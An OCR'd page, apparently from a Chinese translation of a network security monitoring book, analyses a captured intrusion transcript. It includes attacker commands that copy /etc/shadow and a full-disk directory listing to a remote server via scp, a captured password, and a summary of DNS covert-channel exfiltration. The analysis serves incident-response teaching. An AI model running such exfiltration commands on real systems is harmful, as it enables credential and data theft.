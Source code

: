 SRC: ..............2.......@...4**scp /etc/shadow raybourque@10.10.0.1:/home/raybourque/**

DST: ...s............core_channel_write....)....12979532812626493965961252667084........2......

.....4**Bru1ns**

SRC: **shadow** 100% 1121 1.1KB/s 00:00

*列表 11-28：复制* /etc/shadow *文件*

接下来，入侵者创建整个硬盘的递归目录列表

将驱动器内容放入名为*intubu32.ls-alR.txt*的文件中，如清单 11-29 所示。

DST: ................core_channel_write....)....67917540968083609031577076644751........2....

...(...4**ls -alR / > intubu32.ls-alR.txt**

*清单 11-29: 创建硬盘的递归目录列表*

在创建文件后，入侵者再次使用 scp 将其传输到他的

作为用户 raybourque 登录的服务器，如清单 11-30 所示。

客户端侧妥协 **259**

[www.it-ebooks.info](http://www.it-ebooks.info/)

SRC: ..............2...........4**scp intubu32.ls-alR.txt raybourque@10.10.0.1:/home/raybourque** **SRC: <32.ls-alR.txt** raybourque@10.10.0.1:/home/raybourque

........................./

SRC: ....................core_channel_write....)....USSCEEVDBIGFIRWOSESCHCUWSDAZFPJS.

SRC: .

SRC: ..u...........2...........4 密码:....................core_channel_write....)....

GUTYMDXFGXQWFPYSCFKMNPZTQEKYHWYC.

DST: ...s............core_channel_write....)....56606769242836968330355877691782........2......

.....4Bru1ns

*清单 11-30: 将硬盘文件列表传输到入侵者的服务器*

这就是转录的结束。

***总结阶段 2***

在这次入侵的后半段，入侵者仍然通过

203.0.113.15，使用被盗凭证通过 SSH 从 172.16.0.37 连接

到 10.0.0.9。他将一个 DNS 隐蔽通道工具复制到第二个受害者的系统中，并

将其配置为与新的入侵者系统 203.0.113.8 通信。入侵者

激活了隐蔽通道，我们看到它通过 DNS 进行通信

请求和回复。在隐蔽通道内，入侵者复制了敏感数据

从第二个受害者 10.0.0.9 获取的数据，图 11-18 总结了
